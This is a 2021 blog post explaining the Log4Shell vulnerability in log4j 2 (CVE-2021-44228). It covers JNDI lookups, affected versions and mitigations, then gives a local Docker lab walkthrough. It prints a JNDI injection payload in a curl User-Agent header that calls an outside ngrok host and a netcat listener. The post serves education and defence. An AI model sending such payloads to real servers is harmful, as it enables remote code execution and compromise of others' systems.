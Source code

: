 ```yaml
---
title: "Play with log4shell; just for fun."
date: 2021-12-12
author: "John Stilia"
description: "Log4Shell: RCE 0-day exploit in log4j 2, a Java logging package"
categories: [Java, RCE, 0-day]
tags: [Java, 0-day, RCE, log4j, CVE-2021-44228, CVE]

# resources:
# - name: featured-image
#   src: java-vurn.png
# - name: featured-image-preview
#   src: log4j-1.png

draft: false
lightgallery: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  auto: false
comment:
  enable: true
---
```


Log4Shell: RCE 0-day exploit in log4j 2, a Java logging package

<!--more-->

{{< admonition danger>}}
For educational purposes only. Please do not use it for illegal purposes.

I am not a Java Developer, and I am not responsible for any damage caused by this code.

This is a proof of concept.
{{< /admonition >}}

A 0-day exploit in the popular Java logging library log4j (version 2) resulted in Remote Code Execution (RCE) by logging a particular string.
The impact of this vulnerability is quite severe. It is called "Log4Shell" for short. Considering how widespread this library is, this impact can result in complete server control.

The initial mention of the vulnerability was made by [@P0rZ9](https://twitter.com/P0rZ9) on [Twitter](https://twitter.com/P0rZ9/status/1468949890571337731).

# What is JNDI?

The Java Naming and Directory Interface is a Java API for a directory service that allows Java software clients to discover and look up data and resources via a name.
Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation

# ${jndi:ldap://example.com/a}

Log4j contains [special syntax](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) in the form `${prefix:name}` where prefix is one of a number of different [Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) where name should be evaluated.
For example, `${java:version}` is the current running version of Java.
LOG4J2-313 added a jndi Lookup as follows: `“The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.”`
With a `:` present in the key, as in `${jndi:ldap://example.com/a}` there’s no prefix and the LDAP server is queried for the object. And these Lookups can be used in both the configuration of Log4j as well as when lines are logged.

# Who is Impacted

Anybody using Apache Struts is likely vulnerable. In particular, any Log4J version prior to v2.15.0 is affected by this vulnerability.
In addition, the version 1 branch of Log4J is vulnerable to other RCE attacks and should be updated.

Many companies have been impacted, including big names such as Apple, Amazon, Twitter, and Tesla.
Here is a comprehensive list of impacted companies as of the time of the vulnerability release. [YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface#the-list)

## Affected Apache log4j2 versions​

2.0 <= Apache log4j <= 2.14.1

## Permanent Mitigation​

Version 2.15.0 of log4j has been released without the vulnerability. log4j-core.jar is available on Maven Central here, with [release notes] and [log4j security announcements](https://logging.apache.org/log4j/2.x/security.html).

## Temporary Mitigation

As per the discussion at [HackerNews](https://news.ycombinator.com/item?id=29507263) there are few ways to mitigate this vulnerability temporarily.
{{< admonition note>}}
If you are using a version older than 2.10.0 and cannot upgrade,
your mitigation choices are:

- Modify every logging pattern layout to say %m{nolookups}
  instead of %m in your logging config files,
  see details at https://issues.apache.org/jira/browse/LOG4J2-2109

or

- Substitute a non-vulnerable or empty implementation of the
  class org.apache.logging.log4j.core.lookup.JndiLookup,
  in a way that your classloader uses your replacement instead
  of the vulnerable version of the class.
  Refer to your application's or stack's classloading
  documentation to understand this behaviour.
  {{< /admonition >}}

# Digging deeper

The Java Naming and Directory Interface (JNDI) is a Java API for a directory service that allows you to interface with LDAP or DNS to look up data and resources. Unfortunately, one of the data types that can be returned is a URI pointing to a Java class — and if you load an untrusted Java class, then you’re unwittingly executing someone else’s code.

Even logging a message like the following can trigger a remote LDAP call, causing a criminal Java class to be instantiated.

`log.info("this is a security nightmare! {}", userInput);`

A real-world example of this same issue would be:

`log.info("Request User-Agent: {}", userAgent);`

A curl request to a remote server would look like this:

`curl -H 'User-Agent: ${jndi:ldap://ee32-de2f-71a.ngrok.io:8888/a}' https://vurnable-host.com/`

Where `ee32-de2f-71a.ngrok.io:8888` could be a netcat listener running.

As seen on [www.fastly.com](https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j/)
{{< figure src="https://raw.githubusercontent.com/stiliajohny/stiliajohny.github.io/master/content/posts/play-with-log4shell-just-for-fun/log4j-2.png" title="How the attack works" >}}

# Fun time, exploit all the things!

- Head to [leonjza/log4jpwn](https://github.com/leonjza/log4jpwn)
- After cloning the repo, run the following command:

  `docker build -t log4jpwn .` # This will build a docker image from the current directory.

- Run the docker image:

  `docker run --rm -p5555:8080 log4jpwn`

- start a netcat listener on port 8888

  `nc -lnvp 8888`

- Get your docker interface host ip address:

  `ip a s docker0 | grep inet | awk '{print $2}' | cut -d/ -f1`
  {{< admonition tip >}}
  That would work in Linux and macOS, but not windows.
  Replace the `docker0` with your docker interface name.
  {{< /admonition >}}

- Exploit the _log4j_ vulnerability.
  `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:5555`
  We can clearly see the log4j library attempted a connection on the netcat listener.
  {{< figure src="https://raw.githubusercontent.com/stiliajohny/stiliajohny.github.io/master/content/posts/play-with-log4shell-just-for-fun/log4j-1.png" >}}

Here we can see the vulnerable library did a callout to the netcat listener. This could be used for all short of attacks.
For more info, look at:

- https://github.com/xiajun325/apache-log4j-rce-poc
- https://www.youtube.com/watch?v=7qoPDq41xhQ&list=TLPQMTIxMjIwMjFkNI5H5Sjm6w

# References

- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/leonjza/log4jpwn
- https://github.com/YfryTchsGD/Log4jAttackSurface
- https://logging.apache.org/log4j/2.x/security.html
- https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j
- https://www.youtube.com/watch?v=7qoPDq41xhQ&list=TLPQMTIxMjIwMjFkNI5H5Sjm6w
- https://github.com/xiajun325/apache-log4j-rce-poc.git
- https://github.com/mbechler/marshalsec.git
- https://logging.apache.org/log4j/2.x/manual/lookups.html
- https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution
- https://issues.apache.org/jira/browse/LOG4J2-313
- https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/

